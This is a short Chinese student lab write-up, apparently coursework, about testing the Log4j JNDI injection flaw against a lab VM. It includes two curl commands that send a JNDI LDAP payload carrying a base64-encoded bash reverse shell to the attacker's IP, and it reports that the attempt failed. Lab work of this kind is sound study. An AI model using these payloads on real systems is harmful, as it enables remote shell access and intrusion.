

# 实验准备

首先进行环境部署


验证能够成功打开网页


按照视频将docker中的demo.jar文件复制到本机上


## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容

课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
__可能是网络问题，后续会再次进行测试。__

作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜